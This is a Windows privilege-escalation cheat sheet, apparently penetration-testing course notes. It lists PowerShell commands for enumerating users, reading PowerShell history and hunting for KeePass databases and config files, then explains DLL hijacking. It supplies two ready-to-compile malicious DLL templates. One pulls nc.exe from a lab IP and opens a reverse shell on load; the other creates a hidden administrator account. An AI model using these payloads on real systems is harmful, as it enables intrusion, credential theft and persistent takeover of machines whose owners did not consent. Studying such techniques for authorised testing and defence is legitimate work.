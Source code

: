 # Windows Privesc Cheatsheet

Checks to follow:

- [x] Username and hostname
- [x] Group memberships of the current user
- [x] Existing users and groups
- [x] Operating system, version and architecture
- [x] Network information - Installed applications
- [x] Running processes
___

### Information GoldMine Powershell

**User and Groups checks**

* `Get-LocalUser`
* `Get-LocalGroup`
* `Get-LocalGroupMember Administrators`

**Always check the PowerShell history of a user.**

* `Get-History`
* `(Get-PSReadlineOption).HistorySavePath`
* `Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -FilterXPath '*[System[(EventID=4104)]]' -MaxEvents 5 | Format-Table TimeCreated, Message -Wrap`

**File Search**

* `Get-ChildItem -Path C:\Users\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
* `Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
* `Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini -File -Recurse -ErrorAction SilentlyContinue`

**Service Binary Hijack**

* `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

___

### DLL Hijack

**Standard Search Order for DLLs**

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

[Hacktricks DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

**Cross Compile DLL**

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

**Malicious DLL Template**

Catch a reverse shell

```c++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
            i = system("copy \\\\192.168.119.162\\tmp\\nc.exe");
            i = system("nc.exe 192.168.119.162 1337 -e cmd");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Attempt to create a new admin user

```c++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
            i = system ("net user dave2 password123! /add");
  	        i = system ("net localgroup administrators dave2 /add");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```